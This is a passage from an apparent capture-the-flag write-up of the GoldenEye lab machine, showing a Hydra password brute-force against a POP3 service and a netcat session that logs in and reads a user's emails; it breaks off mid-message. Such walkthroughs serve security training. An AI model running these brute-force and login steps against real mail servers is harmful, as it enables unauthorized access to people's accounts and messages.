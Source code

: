 ```highlight
└──╼ $hydra -l natalya -P /usr/share/wordlists/fasttrack.txt -s 55007 10.10.50.94 pop3
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-27 12:05:44
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.50.94:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[55007][pop3] host: 10.10.50.94   login: natalya   password: <<redacted>>
[STATUS] 111.00 tries/min, 222 tries in 00:02h, 1 to do in 00:01h, 15 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-27 12:07:45
```

Now I had some credentials it was time to login and check for any email messages, to do this I used netcat to connect to the POP3 service and authentication and use the 'LIST' and 'RETR' commands to list and retrieve messages.

> A list of POP3 commands can be found [here](https://www.shellhacks.com/retrieve-email-pop3-server-command-line/)

```highlight
└──╼ $nc 10.10.50.94 55007
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS <<redacted>>
+OK Logged in.
list
+OK 3 messages:
1 544
2 373
3 921
.
RETR 1
+OK 544 octets
Return-Path: <root@127.0.0.1.goldeneye>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id D9E47454B1
        for <boris>; Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
Message-Id: <20180425022326.D9E47454B1@ubuntu>
Date: Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
From: root@127.0.0.1.goldeneye

Boris, this is admin. You can electronically communicate to co-workers and students here. I'm not going to scan emails for security risks because I trust you and the ot
her admins here.
.
RETR 2
+OK 373 octets
Return-Path: <natalya@ubuntu>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id C3F2B454B1
        for <boris>; Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
Message-Id: <20180425024249.C3F2B454B1@ubuntu>
Date: Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
From: natalya@ubuntu

```